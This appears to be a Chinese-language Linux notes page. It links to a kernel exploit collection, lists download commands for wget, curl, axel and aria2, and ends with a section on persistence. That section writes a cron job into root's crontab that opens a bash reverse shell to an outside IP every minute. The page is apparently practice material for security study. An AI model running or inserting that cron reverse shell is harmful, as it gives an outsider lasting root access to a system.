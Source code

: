 ```yaml
---

---
```


# Linux

[bsauce/kernel-exploit-factory: Linux kernel CVE exploit analysis report and relative debug environment. You don't need to compile Linux kernel and configure your environment anymore. --- bsauce/kernel-exploit-factory：Linux 内核 CVE 漏洞利用分析报告和相关调试环境。您不再需要编译 Linux 内核和配置您的环境。 (github.com)](https://github.com/bsauce/kernel-exploit-factory)

---

## 命令行-下载

### wget

```bash
# 直接下载 
wget http://www.sample-videos.com/video/mp4/big.mp4
# 后台下载
wget -b http://www.sample-videos.com/video/mp4/big.mp4
# 如果网络连接中断,恢复下载
wget -c http://www.sample-videos.com/video/mp4/big.mp4
# 从某个密码保护的 ftp 软件库下载文件
wget --ftp-user=<user_name> --ftp-password=<Give_password> Download-url-address
```

---

### curl

Curl 是另一种高效的下载工具，它可以用来上传或下载文件，只要使用一个简单的命令。它支持暂停和恢复下载程序包，并支持数量最多的 Web 协议，可预测下载完成还剩余多少时间，可通过进度条来显示下载进度。它是所有 Linux 发行版的内置工具。

```bash
# 直接下载
curl -o um.mp4 http://www.sample-videos.com/video/mp4/big.mp4
```

- `-o` : 提供名称，下载文件会以该名称保存
- `-O` : 文件就会以原始名称保存

---

### Axel

这是 wget 的出色替代者，是一款轻量级下载实用工具。它实际上是个加速器，因为它打开了多路 http 连接，可下载独立文件片段，因而文件下载起来更快速。

```bash
apt-get install axel
```

```bash
# 直接下载
axel http://www.sample-videos.com/video/mp4/big.mp4
```

---

### Aria2

这是一种开源命令行下载加速器，支持多个端口，你可以使用最大带宽来下载文件，是一款易于安装、易于使用的工具。

```bash
apt-get install aria2
```

```bash
# 直接下载
aria2c http://www.sample-videos.com/video/mp4/big.mp4
```

---

## 权限维持

### 计划任务

检查任务计划服务是否正常运行

```bash
service cron status
```

![image-20241112155442750](http://cdn.ayusummer233.top/DailyNotes/202411121554522.png)

---

查看当前计划任务

```bash
crontab -l
```

![image-20241112155919656](http://cdn.ayusummer233.top/DailyNotes/202411121559597.png)

---

写入计划任务

```bash
echo "*/1 * * * * bash -i >& /dev/tcp/100.1.1.131/7778 0>&1" > /var/spool/cron/crontabs/root

echo "*/1 * * * * echo 233>>/tmp/233" >> /var/spool/cron/crontabs/root
```

---

要删除这个计划任务需要编辑 `/var/spool/cron/crontabs/root`文件, 把这行删除即可

---

> 奇怪的是 log 显示运行完了, 但是收不到 shell:
>
> ![image-20241112180823702](http://cdn.ayusummer233.top/DailyNotes/202411121808685.png)
>
> ![image-20241112181122435](http://cdn.ayusummer233.top/DailyNotes/202411121939089.png)

所以我们需要修改一下方案, 不直接在计划任务中执行命令, 而是将命令写在脚本里然后计划任务执行脚本

![image-20241113144451522](http://cdn.ayusummer233.top/DailyNotes/202411131445673.png)

![image-20241113144504445](http://cdn.ayusummer233.top/DailyNotes/202411131445449.png)

![image-20241113144531353](http://cdn.ayusummer233.top/DailyNotes/202411131445018.png)

![image-20241113144539172](http://cdn.ayusummer233.top/DailyNotes/202411131445588.png)

















